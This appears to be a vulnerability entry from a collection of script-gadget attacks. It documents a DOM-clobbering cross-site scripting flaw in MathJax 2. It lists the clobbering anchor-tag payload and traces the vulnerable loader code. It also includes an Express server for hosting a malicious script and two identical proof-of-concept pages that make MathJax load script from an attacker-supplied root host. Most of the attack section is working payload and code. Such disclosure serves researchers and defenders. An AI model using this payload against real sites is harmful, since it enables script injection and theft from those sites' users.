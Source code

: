 ## MathJax

### Meta

+ Library: MathJax2
+ Stars: 10.1K
+ Version: v2.7.9
+ Fingerprint: `MathJax.version == "2.7.2"`
+ Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: None


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@2/MathJax.js`
+ `https://www.mathjax.org/MathJax-v2-7-9-available/`


### Vulnerable Code Snippet

```javascript
if (document.getElementById && document.childNodes && document.createElement) {
    if (!(window.MathJax && MathJax.Hub)) {
        if (window.MathJax) {
            window.MathJax = {
                AuthorConfig: window.MathJax
            }
        } else {
            window.MathJax = {}
        }
```
```javascript
MathJax.Hub.Startup = {
    script: "",
    queue: MathJax.Callback.Queue(),
    signal: MathJax.Callback.Signal("Startup"),
    params: {},
    Config: function() {
        this.queue.Push(["Post", this.signal, "Begin Config"]);
        if (MathJax.AuthorConfig && MathJax.AuthorConfig.root) {
            MathJax.Ajax.config.root = MathJax.AuthorConfig.root
        }
```
```javascript
fileURL: function(j) {
  var i;
  while ((i = j.match(/^\[([-._a-z0-9]+)\]/i)) && b.hasOwnProperty(i[1])) {
      j = (b[i[1]] || this.config.root) + j.substr(i[1].length + 2) // Loading MathJax.AuthorConfig.root and type coercice to String
  }
  return j
}
```
```javascript
Load: function(k, m) {
  m = a.Callback(m);
  var l;
  if (k instanceof Object) {
      for (var j in k) {
          if (k.hasOwnProperty(j)) {
              l = j.toUpperCase();
              k = k[j]
          }
      }
  } else {
      l = k.split(/\./).pop().toUpperCase()
  }
  k = this.fileURL(k);
  if (this.loading[k]) {
      this.addHook(k, m)
  } else {
      this.head = h(this.head);
      if (this.loader[l]) {
          this.loader[l].call(this, k, m) // Calls loader['JS'] below

```

```javascript
loader: {
  JS: function(k, m) {
      var j = this.fileName(k);
      var i = document.createElement("script");
      var l = a.Callback(["loadTimeout", this, k]);
      this.loading[k] = {
          callback: m,
          timeout: setTimeout(l, this.timeout),
          status: this.STATUS.OK,
          script: i
      };
      this.loading[k].message = a.Message.File(j);
      i.onerror = l;
      i.type = "text/javascript";
      i.src = k + this.fileRev(j);
      this.head.appendChild(i)
  }
```

## PoC

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address to host the malicious script and configure the URL to route `//config/TeX-AMS-MML_HTMLorMML.js`.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

// Middleware to normalize double slashes in the URL path
app.use((req, res, next) => {
  req.url = req.url.replace(/\/\//g, '/');
  next();
});

app.get('/config/TeX-AMS-MML_HTMLorMML.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'TeX-AMS-MML_HTMLorMML.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```


### PoC #1
```html

<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```

### PoC #2
```html
<a id="MathJax"></a>
<a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```
